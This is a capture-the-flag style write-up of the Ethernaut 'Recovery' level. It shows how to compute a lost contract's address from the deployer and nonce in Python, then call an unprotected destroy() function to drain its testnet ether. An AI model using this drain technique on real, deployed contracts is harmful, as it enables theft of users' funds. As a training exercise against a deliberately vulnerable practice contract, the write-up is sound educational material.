 # Recovery

## Objectives

This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

## Solution

As specified in section 7 of the Ethereum yellowpaper, contract addresses are deterministic and can be derived from the deployer address of the contract and the nonce of the deployment transaction coming from deployer.

In this case we have that information from the get-go:

1. The contract deployer address (our instance, in my case `0xc03f501C5987CAaC9e4470849f13eEA338b76E9f`)

2. The nonce of the deployment of the first SimpleToken (1 as stated on the exercise)

Therefore, we can compute the contract address of the first SimpleToken deployment easily, which results in `0xa26D4caf289D657F24f8d2D26f0DFe99a0B312db`. 

Technically, it is easy to cheat here, since the contract address of the contract we want to drain is easy to see on a block explorer by inspecting the internal transactions of the instance contract. However, the objective of the exercise is to derive the address ourselves.

With this information, all we have to do now is call the `destroy()` function in the SimpleToken contract and direct the funds within it to any address in order to mark the exercise as completed.

## How I did it

1. Once we have these two details (deployer address, nonce) as I described in [solution](#solution), we can code a function in python (or directly in solidity) to obtain the address. As a resourceful developer, even though I know how to compute this, I still decided to go and find a ready made solution in StackExchange in order to skip this:

```python
# compute address of a given contract to be deployed from
# the deployer address + nonce, as stated in the Section 7 
# of the Ethereum yellowpaper for contracts created using CREATE
def mk_contract_address(sender: str, nonce: int) -> str:
    """Create a contract address using eth-utils.
    # Modified from Mikko Ohtamaa's original answer which was later
    # edited by Utgarda
    # Obtained from https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed
    """
    sender_bytes = to_bytes(hexstr=sender)
    raw = rlp.encode([sender_bytes, nonce])
    h = keccak(raw)
    address_bytes = h[12:]
    return to_checksum_address(address_bytes)
```

I would change a few things but if it ain't broke, don't fix it.

2. Then, we can plug in these values and find the address of that first ever SimpleToken deployment:

```python
first_simpletoken_contract_address = mk_contract_address(recovery.address, 1)
```

3. Connect to this contract and call the `destroy()` function, sending the funds to my address.

```python
simpletoken.destroy(acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x8f6213e0626f9f592ef4be898c9bbbe08e1782425ab844602925c57359af7fa1

1. Check that we have actually drained the contract address.

```python
balance_assertion = simpletoken.balance() == 0
print(f"The balance of SimpleToken is zero: {balance_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x81b43555a6325d320d659ccf655e73431e3c70dd531c0db40dd34311bcd46553
